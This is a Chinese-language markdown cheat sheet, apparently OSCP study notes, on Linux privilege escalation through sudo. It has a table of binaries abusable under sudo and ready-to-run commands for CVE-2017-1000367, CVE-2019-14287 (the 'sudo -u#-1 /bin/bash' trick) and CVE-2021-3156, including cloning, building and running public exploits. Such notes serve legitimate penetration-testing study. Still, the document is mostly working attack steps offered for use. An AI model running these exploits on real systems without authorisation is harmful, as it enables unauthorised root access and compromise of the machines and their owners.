 ﻿# Linux  sudo 滥用和 sudo漏洞提权

---

## Table of Contents
 - [sudo 滥用](#sudo-滥用)
 - [sudo 漏洞](#sudo-漏洞)
  - [CVE-2017-1000367](#CVE-2017-1000367)
  - [CVE-2019-14287](#CVE-2019-14287)
  - [CVE-2021-3156](#CVE-2021-3156)

---
## sudo 滥用
已知的可用来sudo滥用提权的`linux`可执行文件列表

| 命令   | 命令     | 命令       | 命令      | 命令         | 命令        | 命令    | 
|--------|----------|------------|-----------|--------------|-------------|---------|
| [awk](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/awk.md)| [expect](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/expect.md) | [flock](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/flock.md)| [ftp](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/ftp.md)| [ionice](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/ionice.md)| [less](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/less-more.md)|[more](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/less-more.md)|
|[man](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/man.md)| [rpm](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/rpm.md)| [setarch](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/setarch.md)| [stdbuf](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/stdbuf.md)| [tcpdump](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/tcpdump.md)| [xargs](https://github.com/NongCloud/oscp-Learn/blob/master/Privilege-Escalation/sudo/Details/xargs.md)|

---
## sudo 漏洞
### CVE-2017-1000367
这个项目指定了通过/usr/bin/sum来sudo提权，请根据自己的sudo情况修改文件名
```
git clone https://github.com/c0d3z3r0/sudo-CVE-2017-1000367.git
cd sudo-CVE-2017-1000367
gcc -o sudopwn sudopwn.c -lutil
./sudopwn
```
## CVE-2019-14287
 
```
$ sudo -u#-1 /bin/bash
或者
$ sudo -u#4294967295 /bin/bash
```

# ## CVE-2021-3156
基于堆的缓冲区溢出漏洞
受影响版本
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1
```
git clone https://github.com/blasty/CVE-2021-3156.git
make
./sudo-hax-me-a-sandwich 0
```

